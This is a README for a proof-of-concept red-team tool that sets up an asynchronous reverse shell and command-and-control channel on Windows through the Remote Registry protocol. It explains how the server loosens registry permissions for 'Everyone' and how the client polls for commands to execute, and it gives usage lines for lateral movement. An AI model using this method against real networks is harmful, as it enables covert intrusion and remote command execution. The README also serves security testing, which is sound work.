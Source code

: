# Everything Is A Shell

## Or rather everyhing is an asynchronous shell...

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard netcat/meterpreter reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is a sleep timer just like Cobalt Strikes. 

At this moment, the repository only has a C2 using Windows Registry keys, but more will hopefully be added in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for certain users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 
4. The client will then check for the value at "sleep" to determine how often to check it. 
5. The client checks the "cmd" value at the server, executes it and writes the result to the output value on the server. 
6. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <cmd>        cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
